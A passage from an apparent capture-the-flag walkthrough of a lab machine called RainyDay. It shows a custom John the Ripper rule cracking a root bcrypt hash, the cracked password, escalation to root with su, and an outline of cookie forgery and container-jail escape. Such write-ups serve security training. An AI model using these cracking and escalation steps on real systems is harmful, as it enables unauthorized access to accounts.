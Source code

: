 

[This post](https://miloserdov.org/?p=5477) goes into how to append a
string as a rule:

![](/img/image-20230214202748582.png)

Since `N` is the position, it says to use `z` to append to the end. I'll
save and exit `john.conf`.

#### Recover Password

Now I'll run `john` with that rule, and it cracks in about a second:



    oxdf@hacky$ john root.hash --rules=rainyday --wordlist=/usr/share/wordlists/rockyou.txt 
    Using default input encoding: UTF-8
    Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
    Cost 1 (iteration count) is 32 for all loaded hashes
    Will run 4 OpenMP threads
    Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
    Enabling duplicate candidate password suppressor
    246813579H34vyR41n (root)     
    1g 0:00:00:01 DONE (2023-02-15 01:26) 0.5405g/s 5137p/s 5137c/s 5137C/s lilgirlH34vyR41n..101086H34vyR41n
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed. 



### su

With the potential root password, I'll try `su -`, and it works:



    jack_adm@rainyday:/dev/shm$ su -
    Password: 
    root@rainyday:~# 



And I'll grab `root.txt`:



    root@rainyday:~# cat /root/root.txt
    5b2508a5************************



## Beyond Root

### gary to Shell

The intended path is to work from gary's container:

-   use the file read to get the flask secret
-   forging a cookie to get into jacks account
-   get into jack's container
-   find the long running sleep process
-   use that process to escape the jail, getting access to jack's home
    directory and their SSH key
